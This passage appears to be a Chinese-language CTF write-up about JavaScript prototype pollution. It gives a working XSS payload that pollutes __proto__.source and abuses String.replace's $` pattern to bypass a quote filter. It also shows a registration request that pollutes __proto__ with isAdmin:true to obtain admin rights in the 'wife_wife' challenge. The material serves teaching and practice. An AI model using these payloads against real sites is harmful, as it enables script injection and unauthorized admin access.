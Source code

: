 简单来说，需要我们传参传入 source 触发 xss，所以这里我们不妨采用原型链污染的方式去污染 `config.__proto__['source']` 试一试

![img](https://drun1baby.top/2022/12/29/JavaScript-%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93/config.png)

可以看到的确可以这样子玩的,不过这里还有个`"`的过滤,

JAVASCRIPT

```
{"source":"%","__proto__": {"source": "123'"}}
```

这样我们就能逃逸出第一个正则了,但是绕过 `"`,我们可以考虑下 `replace` 一些性质

JAVASCRIPT

```
'<img src="{{source}}">'.replace('{{source}}', source);
```

我们看下文档:

> 字符串 stringObject 的 replace() 方法执行的是查找并替换的操作。它将在 stringObject 中查找与 regexp 相匹配的子字符串，然后用 *replacement* 来替换这些子串。如果 regexp 具有全局标志 g，那么 replace() 方法将替换所有匹配的子串。否则，它只替换第一个匹配子串。
>
> *replacement* 可以是字符串，也可以是函数。如果它是字符串，那么每个匹配都将由字符串替换。但是 replacement 中的 `$` 字符具有特定的含义。如下表所示，它说明从模式匹配得到的字符串将用于替换。

![img](https://drun1baby.top/2022/12/29/JavaScript-%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93/replace.png)

我们可以利用第二个参数做点事情：

JAVASCRIPT

```
'123'.replace("2",'$`');
"113"
'123'.replace("2","$'");
"133"
```

利用RegExp对象的 `"` 来闭合自己

最终payload:

JAVASCRIPT

```
{"source":"%","__proto__": {"source": "$` onerror=prompt(1)><!--"}}
```

![img](https://drun1baby.top/2022/12/29/JavaScript-%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93/win.png)

### 攻防世界 wife_wife

<img src="C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231220140557060.png" alt="image-20231220140557060" style="zoom:33%;" /><img src="C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231220140619674.png" alt="image-20231220140619674" style="zoom:33%;" />

题目有两个板块，登陆和注册

bp抓包发现注册时

```
{"username":"cwm","password":"123","isAdmin":true,"inviteCode":"12"}
```

是这样传过去的

构造：

```
{"username":"cwmm","password":"123","__proto__":{"isAdmin":true,"inviteCode":"12"}}
```

成功admin注册